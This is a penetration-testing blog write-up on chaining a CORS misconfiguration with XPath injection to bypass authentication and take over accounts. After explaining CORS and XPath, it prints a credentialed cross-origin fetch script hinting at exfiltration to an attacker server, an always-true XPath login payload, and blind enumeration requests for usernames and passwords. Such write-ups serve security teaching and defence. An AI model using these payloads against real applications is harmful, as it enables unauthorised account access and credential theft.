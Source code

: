 ```yaml
---
title: "CORS Misconfiguration to Account Takeover"
date: 2025-02-20
draft: false
description: "Chaining a CORS Misconfiguration with XPath-Injectino to take over arbitrary Accounts of the application"
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

During an assesment, I uncovered a chain of exploits that began with a <span class="text-primary-400">CORS misconfiguration</span> and culminated in an account takeover / <span class="text-primary-400">authentication bypass via XPath injection in an API endpoint</span>. This article will describe the essentials of CORS, XPATH injections, and the way I was able to exploit the chain.

---

## <i class="fa-solid fa-bars text-primary-400"></i> Basics

### What Is CORS?
Cross-Origin Resource Sharing (<span class="text-primary-400">CORS</span>) is a security feature implemented in web browsers that allows web pages to make requests to a different domain than the one that served the web page. In simpler terms, it <span class="text-primary-400">enables a web application running on one domain to request resources from another domain securely</span>.

### Same-Origin Policy
To understand CORS, it's essential to understand the <span class="text-primary-400">same-origin policy</span>, a fundamental security concept in web development. By default, a <span class="text-primary-400">web browser restricts scripts on a web page from making requests to a different domain</span>. This means a script loaded from <span class="text-primary-400">one origin cannot interact with resources from another origin</span>.

An origin is defined by three components:
- <span class="text-primary-400">Protocol</span>: The communication method (e.g., `http`, `https`)
- <span class="text-primary-400">Host</span>: (domain and subdomain, e.g., `example.com`, `api.example.com`)
- <span class="text-primary-400">Port</span>: The server port number (e.g., `:80`, `:443`)

For example:
- `https://www.example.com` and `https://api.example.com` are different origins because the subdomains (<span class="text-primary-400">Host</span>) differ
- `http://www.example.com` and `https://www.example.com` are different origins because the protocols differ

### How Does CORS Work?
CORS provides a way for the server to <span class="text-primary-400">relax the same-origin policy by specifying who can access its resourcesy</span>. It does this through HTTP headers that tell the browser whether to allow a web page to access resources from a different origin.

#### Allowed Origins
```HTTP
GET /page HTTP/1.1
Host: example.com
Origin: https://www.example.com
```

```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://www.example.com
```

When sending a request with the Origin header set, the webserver will respond with the `Access-Control-Allow-Origin` header, and if allowed, the requested Origin.

#### Authentication

```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true
```

If the allow credentials header is configured, the browser is instructed to include authentication credentials, e.g. cookies, in the request automatically.

---

### What Is XPath?
XPath (<span class="text-primary-400">XML Path Language</span>) is a query language used for selecting nodes from an XML document. It allows you to <span class="text-primary-400">navigate through elements and attributes in an XML document</span>, making it easier to extract and manipulate data.

#### Basic Concepts
<span class="text-primary-400">Nodes</span>: The fundamental units in an XML document, including elements, attributes, text, and comments.

```XML
<library>
  <book category="fiction">
    <title>The Adventures of Tom Sawyer</title>
    <author>Mark Twain</author>
  </book>

  <book category="non-fiction">
    <title>A Brief History of Time</title>
    <author>Stephen Hawking</author>
  </book>
</library>
```

<span class="text-primary-400">Expressions</span>: XPath uses path expressions to select nodes or node sets in an XML document.

> Select the First <book> Element

`/library/book[1]`

> Select <book> Elements with a Specific Attribute

`/book[@category='fiction']`

---

## <i class="fa-solid fa-hammer text-primary-400"></i> The Exploit

### Endpoint Enumeration
The first step in any penetration test involves mapping out the application's attack surface. Normally, I begin by enumerating the API endpoints of the target. However, every endpoint I discovered required an authentication bearer token, preventing any further interaction without valid credentials

### CORS Misconfiguration
While enumerating the application, I noticed that there was a CORS misconfiguration regarding allowed origins. Upon sending a request containing arbitrary Origins, I got the following responses.

```HTTP
GET / HTTP/1.1
Host: target.com
Origin: https://www.attacker.com
```

```HTTP
HTTP/1.1 200 OK
Access-control-allow-origin: attacker.com
Access-Control-Allow-Credentials: true
```

The `Access-Control-Allow-Origin` header was set to a <span class="text-primary-400">wildcard</span>, effectively allowing any origin to access the resources. Combined with `Access-Control-Allow-Credentials: true`, this meant that <span class="text-primary-400">browsers would include cookies</span> and authentication credentials in cross-origin requests.

#### Exploiting CORS
```JS
fetch('https://target-application.com/protected-endpoint', {
  method: 'GET',
  credentials: 'include' // Tell the browser to include saved credentials
})
.then(response => response.json())
.then(data => {
  console.log(data);
  // Potentially exfiltrate data to attacker-controlled server
});
```

This script attempts to access a protected endpoint, with the browser including any credentials due to the misconfigured CORS policy. <span class="text-primary-400">That essentially means, that we can use the victims session to interact with the protected API functions</span>. Now that we bypassed the protected endpoints, let us check if there are any vulneratbillities within those API functions.

### Exploiting XPath
During recon I found an endpoint called `/token`. This endpoint is essentially used to <span class="text-primary-400">login via POST parameters</span> (username, password) and <span class="text-primary-400">retreive an API bearer token</span>, which can then be used to access and use the API functions. Here, different users had different access rights on different endpoints.
The <span class="text-primary-400">endpoint is using an XML document as a Database</span>. Here, XPath queries are used to search for a `user:password` combination in the Database and authenticate them. A basic query might look something like this:

```python
/root/*[password='Test123' and username='MyUser']
```

#### Injection Payload
```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or '1'='1&password=' or '1'='1
```

This payload (URL encoded) injects an <span class="text-primary-400">always-true condition</span> into the XPath query. The backend likely executed a query similar to:

```python
/root/*[password='' or '1'='1' and username='' or '1'='1']
```

Given the injected condition, the query most likely returns / uses the first user in the XML database, effectively bypassing authentication controls and <span class="text-primary-400">providing me with a valid Bearer Token for that account</span>, which I can then use to access their API functions.

#### Enumerating Users
To escalate the attack, we can try to enumerate usernames and extract passwords using XPath functions like `starts-with()` and `substring()`. By iterating over character positions and possible values, we can try to reconstructed usernames and passwords, gaining access to multiple accounts.

```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or string-length(username)=5 and '1'='1&password=irrelevant
```

```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or substring(username,1,1)='a' and '1'='1&password=irrelevant
```

## <i class="fa-solid fa-table-list text-primary-400"></i> Conclusion
This engagement underscored how a <span class="text-primary-400">seemingly minor issues can be chained together for significant impact</span>. A CORS misconfiguration allowed me to bypass the same-origin policy, and an XPath injection in the authentication mechanism enabled full account compromise.